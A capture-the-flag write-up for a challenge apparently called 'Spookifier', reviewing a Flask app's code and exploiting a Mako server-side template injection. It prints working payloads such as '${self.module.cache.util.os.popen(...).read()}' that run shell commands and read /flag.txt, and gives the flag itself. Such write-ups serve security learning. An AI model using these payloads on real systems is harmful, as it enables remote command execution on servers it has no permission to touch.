

# Spookifier

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

# Information Gathering

## The application at-a-glance 🔍

Appication generate "SpooOOooOOooooooOookkkkkyyyyy" names from user input.




## Source code review

All source code was supplied but only relevant parts will be highlighted.

```python
#main.py
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')  # Here "text" is user input
    if(text):
        converted = spookify(text) # And is passed to spookify func without any sanityzation
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')a
```

In `main.py` file `text` parameter from URL is directly passed to `spookify` function without sanityzation. After function `spookify` return it is rendered as template. 

```python
def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```

`spookify` function calls `change_font` func and passed `text` parameter still no sanitization. After `change_font` return it is rendered and returned.

```python
def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts
```

Function `change_font` still do not sanitizate data.

# The Bug

Application lack sanitization. User input is directly passed to template engine allowing to SSTI (Server Side Template Injection) attack to happend.

# Exploitation

## Execution

Payload: `${self.module.cache.util.os.popen("cat+/flag.txt").read()}`

[Python context free payloads in Mako templates](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)


## Explanation

### Why this is even possible?

Application fully trust user to not supply any malicious input. By that do not validate input data. This allows attacker or any malicious actor to take advantage of running application.

### Payload

`${self.module.cache.util.os.popen("cat+/flag.txt").read()}`

To understand why code execute and why it looks slightly different from article mentioned earlier payload could be understand as:

- `self` this references module that legitimate code execute output of `${self}` is `<mako.runtime.TemplateNamespace object at 0x7f93963278b0>`
- `module` this is current loaded module `<module 'memory:0x7f93961eec70'>`
- `cache` is `mako` template function module `<module 'mako.cache' from '/usr/local/lib/python3.8/site-packages/mako/cache.py'>`
- `util` is another mako module and it is importig `os` module built-in python module allowing to execute shell commands
- `os` this allows to execute commands on system `<module 'os' from '/usr/local/lib/python3.8/os.py'>`

All those modules are imported like `self` importnig `module`, `module` importing cache etc. 

By this time payload looks something like `${self.module.cache.util.os}` which translate 

From module I currently execute code go to one of my imports `module` from that go to one of module imports named `cache` from `cache` go to his `util` imports, from that go to `os` import.

From that point there is possibility to use all functions from `os` built-in library.

For example `system()` so full payload looks: `${self.module.cache.util.os.system('id')}`


And it returned 0. Looks like root right? Not exactly.

If command is `whoami` it is still 0. Python system command return `exit code` not exactly of command output.


To read `stdout` of executed command `popen()` function need to be used.

With payload as: `${self.module.cache.util.os.popen('whoami')}`

We got something different `os object` 

`read()` function can be used to get output we want.


With payload as: `${self.module.cache.util.os.popen('whoami').read()}` 


In `Docker` file flag is copied to `/flag.txt`

 With paylaod as: `${self.module.cache.util.os.popen('cat+/flag.txt').read()}`


# Flag

`HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}`
